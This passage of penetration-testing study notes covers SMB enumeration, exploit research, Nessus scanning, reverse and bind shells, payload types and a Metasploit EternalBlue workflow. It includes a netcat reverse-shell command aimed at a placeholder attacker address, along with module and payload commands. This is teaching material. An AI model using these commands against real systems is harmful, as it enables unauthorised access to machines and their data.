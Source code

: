         *   **Source Code Analysis:** Viewing webpage source code can sometimes reveal hidden comments, keys, or other sensitive information.
    *   **SMB Enumeration:**
        *   **`smbclient`:** A command-line tool to attempt connections to SMB file shares, checking for anonymous access and listing contents.
        *   **Metasploit Auxiliary Modules:** Metasploit contains modules designed for SMB scanning and enumeration (e.g., `smb_version`, `smb_enumshares`).
    *   **Vulnerability Research:**
        *   **Google:** The primary tool for researching discovered vulnerabilities and exploits by searching for service versions + "exploit" or "vulnerability".
        *   **Exploit-DB (exploit-db.com):** A database of publicly available exploits. Exploits are often provided with code in various languages (e.g., Python, C, Perl).
        *   **Searchsploit:** A command-line tool in Kali Linux that allows offline searching of the Exploit-DB, useful when internet access is limited. (Less specific search terms often yield better results).
        *   **GitHub:** A common source for finding updated, patched, or proof-of-concept exploits.
    *   **Nessus (Vulnerability Scanner):**
        *   **Purpose:** An enterprise-grade vulnerability scanner widely used in professional penetration tests to identify common vulnerabilities across a network.
        *   **Functionality:** Can perform basic network scans, advanced scans, and identify outdated software, misconfigurations, and known vulnerabilities.
        *   **Reports:** Provides a detailed overview of vulnerabilities, categorized by severity (critical, high, medium, low, informational) and often includes remediation recommendations.
        *   **Verification:** Nessus results should always be **manually verified** by the pen tester; never solely trust the scanner's output.

3.  **Gaining Access (Exploitation):**
    *   **Goal:** Leveraging identified vulnerabilities to gain access to a target system, often by obtaining a "shell" (command-line access).
    *   **Shell Types:**
        *   **Shell:** Refers to gaining command-line access to a remote machine.
        *   **Reverse Shell:** The **target machine initiates a connection back to the attacker's listening machine**. This is the most common shell type (95% of the time) because it often bypasses outbound firewall rules.
            *   **Attacker:** Sets up a listener (e.g., `netcat -nvlp <port>`).
            *   **Victim:** Executes code that connects back to the attacker's listener (e.g., `nc <attacker_ip> <attacker_port> -e /bin/bash` for Linux).
        *   **Bind Shell:** The **target machine opens a listening port**, and the attacker then connects to it. Useful when direct reverse connections are problematic (e.g., bypassing firewalls, or specific network configurations).
            *   **Victim:** Opens a listening port and executes a shell.
            *   **Attacker:** Connects to the victim's listening port.
    *   **Payloads:**
        *   **Purpose:** The specific code that an exploit delivers to a target system to achieve a desired action, such as establishing a shell.
        *   **Non-Staged Payloads:** Deliver the entire shellcode at once. They are generally larger but can be more reliable in some situations.
        *   **Staged Payloads:** Deliver the shellcode in multiple small chunks (stages). They are initially smaller but can be less stable due to multiple network interactions.
        *   **Identification:** Staged payloads often include a forward slash in their name (e.g., `meterpreter/reverse_tcp` vs. `meterpreter_reverse_tcp` for non-staged).
        *   **Troubleshooting:** If an exploit fails, trying a different payload type (staged vs. non-staged) or a different shell (reverse vs. bind) can often resolve the issue.
    *   **Metasploit Framework (`msfconsole`):**
        *   **Purpose:** A powerful open-source exploitation framework that automates many exploitation steps.
        *   **Exploit Workflow:**
            1.  **Search:** Find an appropriate exploit module (e.g., `search EternalBlue`).
            2.  **Select:** `use <exploit_path>` (e.g., `use exploit/windows/smb/ms17_010_eternalblue`).
            3.  **Configure:** Use `show options` to see required parameters. Set `RHOSTS` (target IP), `LHOST` (attacker IP for reverse shells), `LPORT` (attacker's listening port).
            4.  **Set Payload:** Choose the shell type (e.g., `set payload windows/x64/meterpreter/reverse_tcp`).
            5.  **Execute:** `exploit` or `run`.
